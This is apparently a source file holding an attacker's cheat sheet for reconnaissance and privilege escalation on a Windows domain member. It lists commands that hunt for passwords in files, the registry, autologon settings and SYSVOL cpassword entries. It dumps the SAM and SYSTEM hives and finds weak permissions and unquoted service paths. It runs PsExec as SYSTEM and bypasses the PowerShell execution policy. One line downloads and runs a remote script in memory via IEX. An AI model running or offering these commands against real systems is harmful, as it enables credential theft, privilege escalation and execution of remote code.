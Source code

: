 #This cheatsheet is for recon of a windows environnement starting with a simple computer member of the domain.
#get iP configuration
ipconfig /all 

#check existing route 
route print
Get-NetRoute -AddressFamily IPv4 | ft DestinationPrefix,NextHop,RouteMetric,ifIndex

#check local firewall state 
netsh firewall show state
Get-NetFirewallProfile


#check Arp Cache 
arp -a
Get-NetNeighbor -AddressFamily IPv4 | ft ifIndex,IPAddress,LinkLayerAddress,State


#Get account Information
whoami /all

#get information about the system
systeminfo

#Check Update :
wmic qfe list brief
wmic qfe get Caption,Description,HotFixID,InstalledOn
#Check Hosts file 
get-content C:\WINDOWS\System32\drivers\etc\hosts

#check privilege 
whoami /priv

#get all local user
net user
Get-LocalUser | ft Name,Enabled,LastLogon

#get all local group
net localgroup
Get-LocalGroup | ft Name


#check member of local group
net localgroup administrateurs

#get member of domain admin groups
net group /domain "admins du domaine"
net group /domain "Domain admins"

#get intel of a specific domain User 
net user /DOMAIN administrator

#Identify all domain controller 
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().DomainControllers

#Identify DnS server, it many case in WIndow Env it's a domain Controller
Get-DnsClientServerAddress -AddressFamily IPv4 | ft

#check password in file ;)
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini
findstr /si password *.conf


#check password in all files
findstr /spin "password" *.*


#Get Applied GPO  
gpresult /h GPO.html /f

#identify network share 
net use

#list local share
Get-SmbShare
net share

#Get all share of remote server
net view \\servernameorIP

#Check auto logon credential

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' | select "Default*"


#Acces SAM
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system


#Check Right to identify leverafe for privesc
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "tout le monde"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "tout le monde"

icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users" 


icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(M)" | findstr "Everyone"

icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "tout le monde"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(M)" | findstr "tout le monde"

icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users" 
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users" 


#List ScheduledTask

schtasks /query /fo LIST 2>nul | findstr TaskName
dir C:\windows\tasks
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State,

#List service where the executable files is not in C:\Windows 
gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.PathName -notlike "C:\Windows*" } | select PathName,DisplayName,Name

#List Unquoted service Path
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
#check password in regigistre
reg query HKCU /f password /t REG_SZ /s
reg query HKLM /f password /t REG_SZ /s 

#PowerShell One-Line Script Execution in Memory
IEX(New-Object Net.WebClient).downloadString('http://server/script.ps1')

#powershell bypass execution policy
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1


#Powershell identify server 2003 in the current domain 
([adsisearcher]'(OperatingSystem=Windows Server 2003*)').FindAll()

#Powershell identify all Window in the current 
([adsisearcher]'(OperatingSystem=Windows*)').FindAll()

#Psexec to run a shell as system
 PSEXEC -i -s -d CMD

#Check cpassword in SYSVOL to identify 
findstr /si cpassword *.xml

#dump sam 

reg save hklm\sam sam.hiv
reg save hklm\system sys.hiv
#some other interessing files
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\unattend.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml

dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b 
dir c:\ /s /b | findstr /si *vnc.ini
